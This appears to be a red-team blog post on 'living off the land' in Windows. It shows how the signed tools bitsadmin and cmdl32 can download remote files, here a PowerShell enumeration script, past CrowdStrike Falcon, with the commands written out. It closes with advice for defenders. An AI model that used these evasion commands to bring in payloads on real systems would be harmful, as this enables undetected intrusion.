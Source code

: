 ```yaml
---
title: Living off the Land
author: TDSSEC
date: 2022-08-04 00:34:00 +0800
categories: [Red Team, Living Off the Land]
tags: [Red Team]
---
```

# Avoiding EDR/MDR Detection
You may have heard the term **‘living off the land’** where attackers that have compromised a device within your network will try to evade being discovered or blocked by your security solutions. Perhaps you have an EDR/MDR solution, logging capabilities, or even your own Security Operations Centre (SOC) keeping an eye out for intruders. But is this enough?

Attackers that are living off the land realize that today’s security solutions are constantly evolving, monitoring processes and programs being executed in real-time, sandboxing the unknown, and looking to see if anything malicious could be happening. So what happens if a known vendor signed process or program is executed? Will your security solution detect if something malicious is secretly happening?

On many engagements which utilize **Windows Operating Systems**, it has been possible to evade detection of Antivirus, as well as EDR solutions, including **Windows Defender** and **CrowdStrike Falcon** by leveraging Microsoft signed and verified tools that reside on the system.

### The LOLBAS-Project
> [Scripts, Binaries and Libraries](https://lolbas-project.github.io/#)

## Examples
> Windows 10 x64 Machine  
Crowdstrike Falcon MDR installed

For example, if an attacker tries to download or copy a malicious file to a compromised machine using FTP, a web browser, a PowerShell or CMD command, the chances of this being detected can be extremely high. Especially when the file to be downloaded is a PowerShell script from GitHub which assists with Active Directory enumeration...

![Attempted download of external resource via Web Browser](/2022-08-04-living-off-the-land/access-denied.png){: width="500" height="102"}

To evade detection, one _built-in_ tool that _may_ be leveraged is the **_bitsadmin_** tool, used for managing background transfers.

You can find this tool in the following file paths:

    C:\Windows\System32\bitsadmin.exe
    C:\Windows\SysWOW64\bitsadmin.exe

In this scenario, it was possible to successfully download the PowerShell script from GitHub, executing a command similar to:

```
bitsadmin /create 1  
bitsadmin /addfile 1 <file-URL> <save-location>  
bitsadmin /RESUME 1  
bitsadmin /complete 1
```
**Running the commands:**  
![Setting up bitsadmin](/2022-08-04-living-off-the-land/bitsadmin-running.png){: width="1024" height="102"}  

**Downloading:**    
![Downloading](/2022-08-04-living-off-the-land/bitsadmin.png){: width="500" height="102"}  

**File Retrieved after bypassing CrowdStrike Falcon:**    
![obtained](/2022-08-04-living-off-the-land/powershell-script-downloaded.png){: width="500" height="102"}  

There are many other tools that can be used here. Another example is `cmdl32.exe` which by default is located here:

    C:\Windows\System32\cmdl32.exe
    C:\Windows\SysWOW64\cmdl32.exe

An attacker may be able to issue a CMD command as such to download a file from a remote host whilst evading the EDR solution which believes only a legitimate process is running.

A command as simple as:

`cmdl32 /vpn /lan %cd%\config`

## Conclusion

With there being just a few examples, what are the recommendations?

1. First, have security audits and red team scenarios executed. The goal in mind is to identify methods attackers can use to evade your existing security controls.

2. Secondly, review your logging and monitoring procedures. Ensure that also built-in tools that are signed by Microsoft are being added to the watch lists.

3. Last of all, not just one solution may be enough to stop the most experienced of attackers. Defense in depth is recommended, so having multiple security solutions in place might just help keep you one step in front.
